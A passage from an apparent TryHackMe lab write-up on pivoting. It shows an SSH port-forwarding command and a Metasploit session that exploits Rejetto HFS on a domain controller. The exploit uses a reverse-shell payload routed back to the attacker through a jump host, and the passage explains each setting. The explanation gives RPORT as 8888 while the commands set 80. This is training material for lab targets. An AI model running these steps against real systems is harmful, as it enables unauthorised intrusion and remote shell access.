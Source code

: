 Assuming that the vulnerable port is `80`, the port for the server is `4444` and the reverse port is `1337`, we can use the following command
```cmd
ssh tunneluser@Attacker_PC -R 80:dc.za.domain.com:80 -L *:4444:127.0.0.1:4444 -L *:1337:127.0.0.1:1337 -N
```

Once all port forwards are in place, we can start Metasploit and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:
```sh
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 1337 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 4444
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 80
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

There is a lot to unpack here:

- The **LHOST** parameter usually serves two purposes: it is used as the IP where a listener is bound on the attacker's machine to receive a reverse shell; it is also embedded on the payload so that the victim knows where to connect back when the exploit is triggered. In our specific scenario, since THMDC won't be able to reach us, we need to force the payload to connect back to THMJMP2, but we need the listener to bind to the attacker's machine on `127.0.0.1`. To this end, Metasploit provides an optional parameter `ReverseListenerBindAddress`, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
- Our exploit must also run a web server to host and send the final payload back to the victim server. We use **SRVHOST** to indicate the listening address, which in this case is 127.0.0.1, so that the attacker machine binds the webserver to localhost. While this might be counterintuitive, as no external host would be able to point to the attacker's machine localhost, the SSH tunnel will take care of forwarding any connection received on THMJMP2 at SRVPORT back to the attacker's machine.  
- The **RHOSTS** is set to point to 127.0.0.1 as the SSH tunnel will forward the requests to THMDC through the SSH tunnel established with THMJMP2. RPORT is set to 8888, as any connection sent to that port on the attacker machine will be forwarded to port 80 on THMDC.


# Resources
Should we be interested in more tools and techniques, the following resources are available:

- [Sshuttle](https://github.com/sshuttle/sshuttle)
- [Rpivot](https://github.com/klsecservices/rpivot)
- [Chisel](https://github.com/jpillora/chisel)
- [Hijacking Sockets with Shadowmove](https://adepts.of0x.cc/shadowmove-hijack-socket/)